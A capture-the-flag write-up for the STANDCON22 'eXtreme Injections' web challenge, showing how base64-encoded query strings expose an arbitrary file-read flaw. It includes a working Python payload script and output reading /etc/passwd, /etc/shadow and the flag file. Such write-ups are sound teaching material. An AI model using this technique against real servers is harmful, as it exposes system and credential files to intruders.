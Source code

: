 ```yaml
---
layout: default
title: eXtreme Injections
permalink: /:path/
nav_order: 2
---
```


# eXtreme Injections
> Points: 500

# Description

> I have curated a set of interesting infosec posts and built and API to serve you these, securely. Everything is so minimal and secure that there is no chance of attacks! Feel free to try your luck ;)
>
> `nc 18.141.84.203 50068`

# Solution

After starting up the challenge, we are presented with what seems to be a newfeed for Infosec related articles.

![](1.png)

While mapping out the website, we noticed that the URLs would look something like this:

```python
http://18.141.84.203:54843/?s=<BASE64 ENCODED STRING>
```

After decoding the Base64 encoded strings of several URLs, we were able to deduce exactly how the website works:

1. When the `s` query parameter is specified, its value is base64-decoded to get something like the following 3 query strings:

    ```bash
    m=p&l=100 # When the number of displayed posts is changed
    u=ccebf1fc-f670-40ff-86c8-f16bc93c2282&m=r&t=50+million+Facebook+accounts+owned # When a post is clicked on
    m=d&f=uploads%2F70c97cc1-079f-4d01-8798-f36925ec1fd7.pdf # When the "down" link for a post is clicked
    ```

2. Depending on the value of the `m` query parameter, a different action is performed:
    * `p` (Post): Limits the number of posts to display
    * `r` (Redirect): Redirects the browser to the source of the post
    * `d` (Download): Downloads a file

Zooming into the query string for the Download action (where `m=d`), another query parameter, `f`, was found containing a file path.

```bash
m=d&f=uploads%2F70c97cc1-079f-4d01-8798-f36925ec1fd7.pdf # After URL-decoding, it becomes uploads/70c97cc1-079f-4d01-8798-f36925ec1fd7.pdf
```

At this point, we hypothesized we might be able to download files from the web server and hence we began trying out different values. To ease our testing, here is a Python script we created:

```python
import requests
import sys
from urllib.parse import quote
from base64 import b64encode


def generate_encoded_payload(file_path):
    payload = f"m=d&f={quote(file_path)}"
    return b64encode(payload.encode()).decode()

def main():
    target_ip = sys.argv[1]
    target_port = sys.argv[2]
    file_path = sys.argv[3]

    params = {
        "s": generate_encoded_payload(file_path)
    }
    response = requests.get(f"http://{target_ip}:{target_port}/", params=params)
    print("URL:", response.request.url)
    print("Result:\n" + response.text)

if __name__ == "__main__":
    main()
```

Using the above script, we observed that we were able to retrieve the contents of `/etc/passwd`:

```bash 
$ python3 download.py 18.141.84.203 54416 /etc/passwd 
URL: http://18.141.84.203:54416/?s=bT1kJmY9L2V0Yy9wYXNzd2Q%3D
Result: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Another observation we found was that we were able to read files that only users with high privileges could read, such as `/etc/shadow`:

```bash
$ python3 download.py 18.141.84.203 54416 /etc/shadow
URL: http://18.141.84.203:54416/?s=bT1kJmY9L2V0Yy9zaGFkb3c%3D
Result:
root:*:19110:0:99999:7:::
daemon:*:19110:0:99999:7:::
bin:*:19110:0:99999:7:::
...
```

Knowing that we can read any files on the target, we immediately tested  file paths of where the flag could possibly be located at and turns out it was at `/root/flag.txt`:

```bash
$ python3 download.py 18.141.84.203 54416 ./flag.txt 
URL: http://18.141.84.203:54416/?s=bT1kJmY9Li9mbGFnLnR4dA%3D%3D
Result:
not found
$ python3 download.py 18.141.84.203 54416 /flag.txt 
URL: http://18.141.84.203:54416/?s=bT1kJmY9L2ZsYWcudHh0
Result:
not found
$ python3 download.py 18.141.84.203 54416 /root/flag.txt
URL: http://18.141.84.203:54416/?s=bT1kJmY9L3Jvb3QvZmxhZy50eHQ%3D
Result:
STANDCON22{sql!t3_!nj3ct!0n5_4_th3_w!n} # <--- The flag!!!

```

# Flag

`STANDCON22{sql!t3_!nj3ct!0n5_4_th3_w!n}`